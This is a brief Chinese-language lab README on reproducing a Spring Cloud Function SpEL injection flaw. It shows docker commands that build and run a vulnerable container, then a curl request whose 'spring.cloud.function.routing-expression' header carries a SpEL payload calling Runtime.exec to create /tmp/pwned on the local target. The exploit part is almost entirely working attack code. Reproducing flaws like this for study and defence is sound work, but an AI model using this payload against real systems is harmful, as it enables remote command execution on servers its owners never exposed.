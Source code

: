 环境搭建
```
docker build -t spring-cloud-function-spel-injection .
docker run -d -p 9090:8080 spring-cloud-function-spel-injection
```

![](./img/559527d1537c4e4f852206229df8189f.png)


漏洞复现
```
curl -H "spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec(\"touch /tmp/pwned\")" -X POST http://127.0.0.1:9090/functionRouter -d "justfortest"
```

![](./img/4bd9b892323a4fdc9b92df76eead27e5.png)
